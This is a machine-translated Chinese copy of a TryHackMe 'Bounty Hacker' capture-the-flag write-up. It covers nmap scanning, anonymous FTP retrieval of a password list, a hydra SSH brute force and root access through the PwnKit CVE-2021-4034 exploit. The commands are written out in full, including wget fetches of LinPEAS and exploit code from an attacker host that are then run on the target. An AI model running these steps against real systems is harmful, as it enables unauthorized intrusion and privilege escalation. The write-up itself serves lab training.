


# TryHackMe 报道:赏金黑客

> 原文：<https://infosecwriteups.com/tryhackme-writeup-bounty-hacker-4f06536c94c4?source=collection_archive---------3----------------------->

Bcounty Hacker([《Sevuhl》2020](https://tryhackme.com/room/cowboyhacker))是一个有趣的试玩黑客室，灵感来自*星际牛仔* ( [美并&池口 1997–1998](https://web.archive.org/web/20221129002536/https://www.imdb.com/title/tt0213338/))。这是一个相当标准的房间，强化了良好的信息收集将导致成功渗透目标系统的想法。在本文中，我将讨论获得对这个房间的 boot2root 目标系统的用户模式和根级别访问的过程。



来自[“sev uhl”(2020)](https://tryhackme.com/room/cowboyhacker)和[星际牛仔维基(2022 年 7 月 5 日修订)](https://cowboybebop.fandom.com/wiki/Lin?oldid=32836)的一些图像组件。

# 目录一览

1.  程序
2.  结束事项
3.  参考

# 程序

> “你在酒吧里不停地吹嘘你的精英黑客技能，几个赏金猎人决定接受你的索赔！证明你的地位不仅仅是酒吧里的几杯酒。我感觉到你的未来是甜椒和牛肉！”— [《塞弗赫尔》(2020)](https://tryhackme.com/room/cowboyhacker)

我将从定义这个房间的目标开始。具体来说，我需要在目标系统上找到两个标志:一个来自存储在`user.txt`中的低特权用户，另一个来自存储在`root.txt`中的 root 帐户。我在攻击框中配置了`/etc/hosts`文件，使其包含一个伪域，该伪域将指向 boot2root 机器的动态 IP 地址，单击第一个任务右上角的绿色“启动机器”按钮，然后开始工作。

## 探索

我首先在 web 浏览器的地址栏中键入伪域，以查看是否有网站在目标系统上运行。确实有一个网站在运行(如图 1 所示):


图 1

除了一个(相当迷人的)入侵目标系统的提示之外，web 服务器上似乎没有太多东西。我将继续运行 [nmap (n.d.)](https://nmap.org/) 扫描，找出系统上正在运行哪些端口:

```
**┌──(dna㉿deniers)-[~/cowboyhacker]
└─$ sudo nmap -sT -A -v -Pn -p- -O -sC -oX tcp_scan.xml --max-scan-delay=5s cowboyhacker.thm**
[sudo] password for dna: 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.93 ( https://nmap.org ) at [redacted] EST
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 06:59
Completed NSE at 06:59, 0.00s elapsed
Initiating NSE at 06:59
Completed NSE at 06:59, 0.00s elapsed
Initiating NSE at 06:59
Completed NSE at 06:59, 0.00s elapsed
Initiating Connect Scan at 06:59
Scanning cowboyhacker.thm [65535 ports]
Discovered open port 80/tcp on cowboyhacker.thm

[... snip ...]
```

这将把扫描结果输出到 XML 文件中。扫描完成后，我使用 [xsltproc (n.d.)](http://xmlsoft.org/xslt/xsltproc.html) 将`nmap`的输出转换成可读性更好的 HTML 格式:

```
**┌──(dna㉿deniers)-[~/cowboyhacker]
└─$ xsltproc tcp_scan.xml -o tcp_scan.html**

**┌──(dna㉿deniers)-[~/cowboyhacker]
└─$**
```

图 2 描述了 HTML 报告的摘录:



图 2

端口扫描显示有一个 vsftpd FTP 服务器正在运行(参见 [vsftpd v 3.0.3](https://security.appspot.com/downloads/vsftpd-3.0.3.tar.gz) )、一个 [OpenSSH (v 7.2p2)](https://www.openssh.com/txt/release-7.2p2) 服务和 [Apache HTTP 服务器(v. 2.2.x — 2.4.x)](https://httpd.apache.org/docs/2.4/new_features_2_4.html) 。尝试“猜测”目标系统的操作系统显示，它最有可能运行的是 [Ubuntu (n.d.)](https://ubuntu.com/about) Linux。

此外，扫描显示 vsftpd 实例允许匿名登录。我将继续进一步探查 FTP 服务:

```
**┌──(dna㉿deniers)-[~/cowboyhacker]
└─$ ftp cowboyhacker.thm    **                    
Connected to cowboyhacker.thm.
220 (vsFTPd 3.0.3)
Name (cowboyhacker.thm:dna): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
**ftp>**
```

然后，我列举了系统，找到了两个名为`locks.txt`和`task.txt`的文件，并开始下载:

```
**ftp> ls**
229 Entering Extended Passive Mode (|||43854|)
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
**ftp> get locks.txt**
local: locks.txt remote: locks.txt
229 Entering Extended Passive Mode (|||18723|)
ftp: Can't connect to [redacted]: Connection timed out
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
100% |*************************************|   418  4.84 KiB/s  00:00 ETA
226 Transfer complete.
418 bytes received in 00:00 (1.01 KiB/s)
**ftp> get task.txt**
local: task.txt remote: task.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
100% |*************************************|    68  1.33 KiB/s  00:00 ETA
226 Transfer complete.
68 bytes received in 00:00 (0.24 KiB/s)
**ftp>**
```

然后我检查了里面的东西:

```
**┌──(dna㉿deniers)-[~/cowboyhacker]
└─$ cat locks.txt    **                    
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e

**┌──(dna㉿deniers)-[~/cowboyhacker]
└─$ cat task.txt** 
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin

**┌──(dna㉿deniers)-[~/cowboyhacker]
└─$**
```

我从这些下载中了解到两条重要信息:系统上很可能有一个名为“lin”的用户，我有一个似乎是密码的列表，可以用它来尝试基于密码的身份验证方法。

我将尝试使用 hydra([van Hauser et al . n . d .)](https://github.com/vanhauser-thc/thc-hydra)以用户名`lin`和由`locks.txt`组成的密码列表来暴力破解 SSH 服务:

```
**┌──(dna㉿deniers)-[~/cowboyhacker]
└─$ hydra -l lin -P ./locks.txt cowboyhacker.thm ssh -t 10  **                          
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at [redacted]
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 10 tasks per 1 server, overall 10 tasks, 26 login tries (l:1/p:26), ~3 tries per task
[DATA] attacking ssh://cowboyhacker.thm:22/
[22][ssh] host: cowboyhacker.thm   **login: lin**   **password: RedDr4gonSynd1cat3**
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at [redacted]

**┌──(dna㉿deniers)-[~/cowboyhacker]
└─$**
```

有了 SSH 登录的用户名和密码组合，我现在可以开始获得对系统的初始访问。

## 初始访问

初始访问可以通过 SSH 客户端完成:

```
**┌──(dna㉿deniers)-[~/cowboyhacker]
└─$ ssh lin@cowboyhacker.thm  ** 
The authenticity of host 'cowboyhacker.thm' can't be established.
ED25519 key fingerprint is SHA256:Y140oz+ukdhfyG8/c5KvqKdvm+Kl+gLSvokSys7SgPU.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'cowboyhacker.thm' (ED25519) to the list of known hosts.
lin@cowboyhacker.thm's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from [redacted]
**lin@bountyhacker:~/Desktop$**
```

然后我开始扔掉`user.txt`旗:

```
**lin@bountyhacker:~/Desktop$ cd ..
lin@bountyhacker:~$ find . -name user.txt -type f -print 2>/dev/null**
./Desktop/user.txt
**lin@bountyhacker:~$ cd Desktop
lin@bountyhacker:~/Desktop$ cat user.txt**
THM{redacted}
**lin@bountyhacker:~/Desktop$**
```

我现在可以利用系统上的权限提升漏洞来获得完全的根用户访问权限。

## 后期开发

我认为我可以利用某种 SUID 二进制文件(见 [Carrigan 2020](https://www.redhat.com/sysadmin/suid-sgid-sticky-bit) )来获得系统的根访问权限。我使用`find`命令在目标系统中查询启用了粘性位的文件(和潜在的二进制文件)(再次参见 [Carrigan 2020](https://www.redhat.com/sysadmin/suid-sgid-sticky-bit) ):

```
**lin@bountyhacker:~/Desktop$ cd ..
lin@bountyhacker:~$ find / -type f -perm /4000 -print 2>/dev/null**
/usr/sbin/pppd
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/sudo
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/xorg/Xorg.wrap
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/oxide-qt/chrome-sandbox
/usr/lib/snapd/snap-confine
/bin/fusermount
/bin/su
/bin/mount
/bin/ping
/bin/ping6
/bin/umount
**lin@bountyhacker:~$**
```

然后，我咨询了 [GTFOBins (n.d.)](https://gtfobins.github.io/) 来找出执行权限提升的最佳二进制文件。我对上面的一些输出做了一些实验，但是没有成功:

```
**lin@bountyhacker:~$ sudo su**
[sudo] password for lin: 
Sorry, user lin is not allowed to execute '/bin/su' as root on bountyhacker.
**lin@bountyhacker:~$ /bin/su**
Password: 
su: Authentication failure
**lin@bountyhacker:~$ /usr/bin/passwd**
Changing password for lin.
(current) UNIX password: 

passwd: Authentication token manipulation error
passwd: password unchanged
**lin@bountyhacker:~$ 
lin@bountyhacker:~$**
```

然后，我尝试了另一种技术:我使用 LinPEAS ( [Polop n.d.](https://github.com/carlospolop/PEASS-ng) )来列举目标系统的内部漏洞，这些漏洞会导致根用户访问。我在攻击箱上启动了一个小的 HTTP 服务，通过`wget`实用程序将文件传输到系统:

```
**lin@bountyhacker:~$ wget http://attacker.thm:8000/linpeas.sh**
--[redacted]--  http://attacker.thm:8000/linpeas.sh
Connecting to attacker.thm:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 827827 (808K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh   100%[==================>] 808.42K   286KB/s    in 2.8s

[redacted] (286 KB/s) - ‘linpeas.sh’ saved [827827/827827]

**lin@bountyhacker:~$ chmod +x linpeas.sh
lin@bountyhacker:~$ ./linpeas.sh**

[... snip ...]    

╔══════════╣ CVEs Check
**Vulnerable to CVE-2021-4034**

Potentially Vulnerable to CVE-2022-2588

[... snip ...]
```

该系统似乎容易受到 *Polkit* 权限提升漏洞([国家漏洞数据库 n.d.](https://nvd.nist.gov/vuln/detail/cve-2021-4034) )的攻击，正如其 CVE id:CVE-2021–4034 所示。我将通过使用 [Berardi et al. (n.d.)](https://github.com/berdav/CVE-2021-4034) 尝试获得系统上的 root 访问权限来进行测试:

```
**lin@bountyhacker:~$ wget http://attacker.thm:8000/CVE-2021-4034/cve-2021-4034 -o ./polkit
lin@bountyhacker:~$ ls**
Desktop  Documents  Downloads  linpeas.sh  Music  Pictures  polkit  Public  Templates  Videos
**lin@bountyhacker:~$ chmod +x polit**
chmod: cannot access 'polit': No such file or directory
**lin@bountyhacker:~$ chmod +x polkit**
**lin@bountyhacker:~$ ./polit**
-bash: ./polit: No such file or directory
**lin@bountyhacker:~$ ./polkit**
./polkit: line 1: [redacted]: command not found
./polkit: line 2: syntax error near unexpected token `('
./polkit: line 2: `Resolving localhost (localhost)... 127.0.0.1'
**lin@bountyhacker:~$ rm polkit**
**lin@bountyhacker:~$ wget http://attacker.thm:8000/CVE-2021-4034-main.zip**
--[redacted]--  http://attacker.thm:8000/CVE-2021-4034-main.zip
Connecting to attacker.thm:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 6457 (6.3K) [application/zip]
Saving to: ‘CVE-2021-4034-main.zip’

CVE-2021-4034-main.zip   100%[================>]   6.31K  --.-KB/s in 0.002s  

[redacted] (3.54 MB/s) - ‘CVE-2021-4034-main.zip’ saved [6457/6457]

**lin@bountyhacker:~$ unzip CVE-2021-4034-main.zip**
Archive:  CVE-2021-4034-main.zip
55d60e381ef90463ed35f47af44bf7e2fbc150d4
   creating: CVE-2021-4034-main/
  inflating: CVE-2021-4034-main/.gitignore  
  inflating: CVE-2021-4034-main/LICENSE  
  inflating: CVE-2021-4034-main/Makefile  
  inflating: CVE-2021-4034-main/README.md  
  inflating: CVE-2021-4034-main/cve-2021-4034.c  
  inflating: CVE-2021-4034-main/cve-2021-4034.sh  
   creating: CVE-2021-4034-main/dry-run/
  inflating: CVE-2021-4034-main/dry-run/Makefile  
  inflating: CVE-2021-4034-main/dry-run/dry-run-cve-2021-4034.c  
  inflating: CVE-2021-4034-main/dry-run/pwnkit-dry-run.c  
  inflating: CVE-2021-4034-main/pwnkit.c  
**lin@bountyhacker:~$ ls**
CVE-2021-4034-main  CVE-2021-4034-main.zip  Desktop  Documents  Downloads  linpeas.sh  Music  Pictures  Public  Templates  Videos
**lin@bountyhacker:~$ cd CVE-2021-4034-main
lin@bountyhacker:~/CVE-2021-4034-main$ ls**
cve-2021-4034.c  cve-2021-4034.sh  dry-run  LICENSE  Makefile  pwnkit.c  README.md
**lin@bountyhacker:~/CVE-2021-4034-main$ make**
cc -Wall --shared -fPIC -o pwnkit.so pwnkit.c
cc -Wall    cve-2021-4034.c   -o cve-2021-4034
echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
mkdir -p GCONV_PATH=.
cp -f /bin/true GCONV_PATH=./pwnkit.so:.
**lin@bountyhacker:~/CVE-2021-4034-main$ ./cve-2021-4034**
**# id**
uid=0(root) gid=0(root) groups=0(root),1001(lin)
**#** 
```

最初，我在启动这个漏洞时有点费劲，但很快就成功了。目标系统确实容易受到 *Polkit* 漏洞的攻击，现在我可以转储`root.txt`标志了:

```
**# find / -type f -name root.txt -print 2>/dev/null**
/root/root.txt
**# cat /root/root.txt**
THM{redacted}
**#**
```

阿洛拉。

# 结束事项

就像我说的，这是一个非常标准的房间，它的存在是为了强调良好的信息收集和侦察的重要性。我能够从 *vsftpd* 服务中访问文本文件，然后使用它作为初始访问的基础。然后，我利用系统上的一个漏洞获得 root 访问权限，以获得完成这个房间所需的另一半 flag。总的来说，我认为赏金黑客是加强红队良好实践的好东西。

## 插头:米拉·拉辛去哪了？

嘿你们好。过去，我曾因米拉·拉辛的出色工作而提拔过她，但有些看过她的推特资料的人可能已经注意到，她在那里一直不活跃。她离开了 Twitter(因为埃隆·马斯克毁了它，就像他毁了他接触的所有其他东西一样，就像是 techbro 版的迈克尔·赫夫龙(Michael Hefferon)。请跟随她自己，向她展示你对❤️的爱

[](https://kolektiva.social/@MiraLazine) [## 不变量(@miralazine@kolektiva.social)

### 88 个帖子，85 个以下，32 个追随者复数，跨性别，残疾人，神经分歧，无政府主义未成年人 DNI 如果你需要一个…

kolektiva.social](https://kolektiva.social/@MiraLazine) 

## 插头:我的东西

对于喜欢我的作品但尚未注册 Medium 会员计划的读者，如果他们能通过我的推荐链接注册，我将不胜感激(这在经济上帮助了我 https://medium.com/membership/@EpsilonCalculus ❤️):

此外，对于任何喜欢阅读我的黑客文章的读者，我邀请他们看看我的技术文章系列，主要由 CTF 的文章组成，但也有其他计算机和 STEM 内容😃


阿列克谢

## 技术报道

[View list](https://medium.com/@EpsilonCalculus/list/technical-writeups-63f8cfbee59c?source=post_page-----4f06536c94c4--------------------------------)43 stories

# 参考

Apache HTTP 服务器(2.2.x 版— 2.4.x 版)。*Apache HTTP Server 2.4 新特性概述*。2022 年 12 月 5 日检索自:【https://httpd.apache.org/docs/2.4/new_features_2_4.html 

Berardi 等人(未标明)。*CVE——2021 年 4 月 34 日*。GitHub 仓库。2022 年 12 月 5 日检索自:[https://github.com/berdav/CVE-2021-4034](https://github.com/berdav/CVE-2021-4034)

t .卡里根(2020 年)。 *Linux 权限:SUID、SGID 和粘滞位*。红帽子。2022 年 12 月 5 日检索自:[https://www.redhat.com/sysadmin/suid-sgid-sticky-bit](https://www.redhat.com/sysadmin/suid-sgid-sticky-bit)

星际牛仔维基(2022 年 7 月 5 日修订)。*林*。2022 年 12 月 5 日检索自:[https://cowboybebop.fandom.com/wiki/Lin?oldid=32836](https://cowboybebop.fandom.com/wiki/Lin?oldid=32836)

GTFOBins(未标明)。2022 年 12 月 5 日检索自:[https://gtfobins.github.io/](https://gtfobins.github.io/)

m .美并和 k .池口(制片人)。(1997–1998).*星际牛仔*【电视剧】。日出公司。

国家脆弱性数据库(未标明)。*CVE-2021–4034 详细信息*。2022 年 12 月 5 日检索自:[https://nvd.nist.gov/vuln/detail/cve-2021-4034](https://nvd.nist.gov/vuln/detail/cve-2021-4034)

nmap(未标明)。 *Nmap:网络映射器——免费安全扫描器*。2022 年 12 月 5 日检索自:[https://nmap.org/](https://nmap.org/)

OpenSSH(7.2p 2 版)。*发行说明*。2022 年 12 月 5 日检索自:[https://www.openssh.com/txt/release-7.2p2](https://www.openssh.com/txt/release-7.2p2)

波洛普角(未标明)。*PEASS——权限提升牛逼脚本套件(带颜色)*。GitHub 仓库。2022 年 12 月 5 日检索自:[https://github.com/carlospolop/PEASS-ng](https://github.com/carlospolop/PEASS-ng)

《sev uhl》(2020)。*赏金黑客*。TryHackMe。2022 年 12 月 4 日检索自:【https://tryhackme.com/room/cowboyhacker 

Ubuntu(未注明日期)。*乌班图*的故事。2022 年 12 月 5 日检索自:[https://ubuntu.com/about](https://ubuntu.com/about)

van Hauser 等人(未注明)。*九头蛇*。GitHub 仓库。2022 年 12 月 5 日检索自:[https://github.com/vanhauser-thc/thc-hydra](https://github.com/vanhauser-thc/thc-hydra)

vsftpd (v. 3.0.3)。2022 年 12 月 5 日检索自:[https://security.appspot.com/downloads/vsftpd-3.0.3.tar.gz](https://security.appspot.com/downloads/vsftpd-3.0.3.tar.gz)

xsltproc(未标明)。 *xsltproc —命令行 xslt 处理器*。2022 年 12 月 5 日检索自:[http://xmlsoft.org/xslt/xsltproc.html](http://xmlsoft.org/xslt/xsltproc.html)

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！